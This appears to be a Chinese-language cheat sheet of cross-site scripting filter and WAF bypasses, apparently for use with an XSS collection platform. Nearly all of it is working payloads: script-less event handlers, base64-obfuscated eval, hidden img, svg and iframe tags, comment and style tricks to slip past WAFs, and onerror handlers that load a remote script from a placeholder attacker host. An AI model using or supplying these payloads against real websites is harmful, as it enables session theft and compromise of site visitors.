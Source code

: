 # x55-bypass

---

### 规则

```
1.x55平台做了http重定向https，//无论解析成http和https都可以使用；x55平台地址“？”后面可以不要
2.标签与第一个属性之间可以用“/”代替空格
3.引号内容可以转10进制或者16进制
4.style=display:none  #设置成无显示，PS：有些标签不一定支持
5.域名可以换成真实IP、url编码、双字节编码、16进制、8进制
6.网站有jq可以使用$.getScript("js地址")
7.如果alert('123')不行可以试试prompt('xss')
```

### 常用

- 变形
  ```
  #//alert(1) 或者prompt(1) -> 网站有jq可以使用: $.getScript("js地址")
                         -> createElement('script');body.appendChild(s);s.src='js地址'>
                         -> eval(atob('YWxlcnQoJzEyMycp')) #base64接码：alert('123')
  ```
-  无script标签

  ```
  ##// <BODY/ONLOAD=alert(1)>   
  ##// <SVG/ONLOAD=alert(1) style=display:none>
  ##// <audio src=x onerror=alert("xss");>
  ##// <video style=display:none><source onerror="alert(1)">
  ```

- img（不显示图片）

  ```
  ##// <img/style=display:none src=# onerror=eval(atob('YWxlcnQoJzEyMycp'))>
  注：YWxlcnQoJzEyMycp => alert('123')
  ##// <img/src=# style=display:none onerror=$.getScript("js地址")>
  ##// <img/src=# style=display:none onerror=createElement('script');body.appendChild(s);s.src='js地址'>
  ```

- iframe data:text/html  # 目前只能测试能在iframe上使用

  ```
  ##// <iframe/style="display:none" src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">##</iframe>
注：%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E为url编码 -> ## 弹窗1
  ```

- details 详细标签 #可能会把后面的数据隐藏

  ```
  ##// <details/open/ontoggle=alert(1) style=display:none>
  ```



### 绕过规则

```
https://www.freebuf.com/articles/web/153055.html
https://www.cnblogs.com/wjrblogs/p/12341190.html
```

###  bypass 常规waf(x=alert(1))

```
冷门标签绕过：

##// `!-- --`绕过:
##// `<!--<img src="--><img src onerror=x//">`

##// `<style><img src="</style><img src onerror=x//">`
```

### 绕过<script src>的正则

```
##// <SCRIPT a=">" SRC="//xxx.com/xxxx"></SCRIPT>   
```

### 当fuzz出可以执行js代码的标签后，执行在当前页面添加script标签语句

```
##// <img src=# onerror=s=createElement('script');body.appendChild(s);s.src='js地址';>
```



